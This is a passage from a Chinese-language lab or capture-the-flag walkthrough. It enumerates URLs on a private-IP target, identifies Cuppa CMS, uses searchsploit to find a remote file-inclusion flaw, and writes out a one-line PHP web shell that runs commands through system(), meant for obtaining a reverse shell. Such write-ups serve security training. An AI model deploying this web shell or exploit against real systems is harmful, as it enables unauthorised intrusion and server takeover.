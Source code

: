 ![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXcR2KFnvjYhwQMPc0gicee7bpdTUXwsfaibibG60kNzCWqIGNmfheU74kdg/640?wx_fmt=jpeg&from=appmsg "")  
  
根据上面收集的信息，构造一些网站的可能性，这里是不包括绑定域名的情况  
```
http://192.168.10.8/devops/directortestpagev1.php
http://192.168.10.8:8080/devops/directortestpagev1.php

http://192.168.10.8/genevieve
http://192.168.10.8:8080/genevieve

```  
  
先尝试一下，发现访问成功一个，看网站的样子，应该是还在搭建中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXclUuvTCVDWSQ6HVDdSFuYSBARexy100aUmmfRLhuh7lvV6icr4EmGSzg/640?wx_fmt=jpeg&from=appmsg "")  
  
把能点的都点了，发现基本上都是页面不存在，不过发现一个功能，点击后，跳转到登录界面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXc3InAOsqN5LmbTaX720ic2o3s2MiaFas9mtdrO0A4SYiaibicsIbbJ6Tvoicg/640?wx_fmt=jpeg&from=appmsg "")  
  
可以看到是CMS  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXc1LMqegE8QhZGsVA1bDWqIalqepnwetk7YhZiaMzR4dnu1SKoFIzWmyw/640?wx_fmt=jpeg&from=appmsg "")  
  
以前面获取的信息，尝试进行登录，发现不行，包括刚获取的goodtech  
，把所有信息进行拼接，得出的用户名和密码，都无法登录，并且测试登录框，应该不存在注入  
# 漏洞利用  
  
那么使用searchsploit  
搜索，有无该CMS的漏洞cuppa  
```
searchsploit cuppa

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXcqmoEhC2o8VlZS7mmGTvpIyAoxaESZ6Y9XXl4dFhVT0gTK3TIzmxBog/640?wx_fmt=jpeg&from=appmsg "")  
  
查看文档，发现用法，并且是文件包含，这个应该是cms  
构建时的代码原因  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXccMfCvcvJ3DvnbibbtbXiaDQ5bKicuTgme18wygnrDsqYrPCttQgMA0icaA/640?wx_fmt=jpeg&from=appmsg "")  
  
测试路径，并且确定是否可用，确实可以  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/y4VoXticAsO6AOnJ4qTJwicCPfLobclXXcBDtk6zO0dQcGicM0sRiaIv3vibkMRvS0dN8wl58DbNElHuDZHEoiawp9FA/640?wx_fmt=jpeg&from=appmsg "")  
  
那么就在kali  
本地创建一个php  
文件，使得其远程包含该文件，然后导致反弹shell  
  
这里先写一个简单的php  
代码，可执行system  
的命令  
```
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>

```  
  